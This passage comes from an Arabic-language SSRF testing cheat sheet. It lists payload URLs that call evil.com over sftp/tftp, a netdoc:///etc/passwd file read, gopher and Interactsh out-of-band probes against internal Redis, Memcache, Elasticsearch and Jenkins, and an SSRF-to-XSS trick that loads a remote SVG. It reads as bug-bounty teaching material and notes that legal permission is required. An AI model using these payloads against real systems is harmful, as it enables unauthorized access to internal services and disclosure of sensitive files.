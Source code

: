   - `sftp://evil.com:11111/` (اختبار SFTP).
  - `tftp://evil.com:12346/TESTUDPPACKET` (اختبار TFTP).
  - `ldap://localhost:11211/%0astats%0aquit` (اختبار LDAP).
  - `netdoc:///etc/passwd` (قراءة ملف عبر Java).


![Pasted image 20250422211424.png|595](attachments/Pasted image 20250422211424.png|595)

----

#### **12. اختبار الاستغلال العمياء (Blind Exploitation)**
- **إيه اللي هتعمله؟** لو ما قدرتش تشوف ناتج الطلبات، جرب إرسال طلبات إلى خدمات خارجية تلتقط التفاعل (Out-of-Band).
- **إزاي تعملها؟**
  - استخدم أداة زي `app.interactsh.com` لإنشاء نطاق أو خادم يلتقط الطلبات.
  - أدخل رابط يحتوي على النطاق في حقل SSRF.
  - جرب استهداف خدمات داخلية زي:
    - Elasticsearch (`127.0.0.1:9200`).
    - Redis (`127.0.0.1:6379`).
    - Jenkins (`127.0.0.1:8080`).
    - أو خدمات أخرى (مثل Weblogic، Apache Solr، Docker).
  - لو شفت تفاعل في الأداة (مثل طلب HTTP أو DNS)، يبقى الثغرة موجودة.
- **مثال**: جرب: `example.com/fetch?url=http://your-id.interact.sh`.
- **ملخص الأوامر/المدخلات**:
  - `http://your-id.interact.sh` (نطاق Interactsh لتسجيل التفاعل).
  - `http://127.0.0.1:6379?data=your-id.interact.sh` (اختبار Redis).
  - `http://127.0.0.1:9200?query=your-id.interact.sh` (اختبار Elasticsearch).
  - `http://127.0.0.1:8080?test=your-id.interact.sh` (اختبار Jenkins).
  - `gopher://127.0.0.1:6379/_PING%0D%0Ayour-id.interact.sh` (اختبار Redis عبر Gopher).
  - `gopher://127.0.0.1:11211/_stats%0D%0Ayour-id.interact.sh` (اختبار Memcache عبر Gopher).

---

#### **13. محاولة تحويل SSRF إلى XSS**
- **إيه اللي هتعمله؟** لو الثغرة مش خطيرة (مثلًا ما تقدرش توصل لخدمات داخلية أو تسرّب ملفات)، جرب تحويلها إلى XSS عشان تزود التأثير.
- **إزاي تعملها؟**
  - أدخل رابط لملف SVG يحتوي على JavaScript (مثل ملف على خادمك أو ملف جاهز).
  - لو الموقع نفذ الـ JavaScript أو أظهر الملف كجزء من الصفحة، يبقى نجحت.
- **مثال**: جرب: `example.com/fetch?url=http://brutelogic.com.br/poc.svg`.
- **ملخص الأوامر/المدخلات**:
  - `http://brutelogic.com.br/poc.svg` (ملف SVG جاهز يحتوي على JavaScript).
  - `http://your-server.com/poc.svg` (ملف SVG مخصص على خادمك).
  - `http://your-server.com/xss.js` (ملف JavaScript مخصص).

---

### **نصايح عامة**
- **سجل كل شيء**: اكتب كل مدخل جربته والنتايج عشان تحللها بعدين.
- **كن حذر**: لازم يكون عندك إذن قانوني للاختبار.
- **ابدأ بسيط**: جرب روابط زي `http://localhost:80` قبل ما تجرب حيل معقدة زي DNS Rebinding.
- **راقب التفاعل**: لو ما ظهرش ناتج، استخدم أدوات زي Interactsh لتسجيل الطلبات.
- **جرب كل الحيل**: لو فلتر منع رابط، جرب صيغ بديلة (IPv6، ترميز، إلخ) واحدة واحدة.
- **استخدم أدوات**: أدوات زي Burp Suite أو OWASP ZAP بتساعدك تعترض وتعدل الطلبات.

---